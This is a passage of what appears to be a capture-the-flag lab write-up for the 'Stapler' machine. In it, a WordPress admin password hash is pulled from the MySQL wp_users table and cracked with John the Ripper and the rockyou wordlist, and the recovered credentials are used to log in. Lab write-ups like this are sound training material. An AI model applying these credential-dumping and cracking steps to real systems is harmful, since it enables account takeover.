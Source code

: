 ```sh
+--------------------+
8 rows in set (0.226 sec)

MySQL [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.199 sec)

MySQL [wordpress]> select * from wp_users;
16 rows in set (0.192 sec)

MySQL [wordpress]> 
```

Extract the hash of the user `john:$P$B7889EMq/erHIuZapMB8GEizebcIy9.` who is a administrative user.

Use john to crack the hash.

```sh
naveenj@hackerspace:|23:22|~/proving_grounds/Stapler/files$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
incorrect        (?)     
1g 0:00:00:09 DONE (2023-10-01 23:22) 0.1028g/s 19022p/s 19022c/s 19022C/s ireland4..iloveaj2
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Now login to worpress https://192.168.208.148:12380/blogblog/wp-login.php using credentials `john:incorrect`.
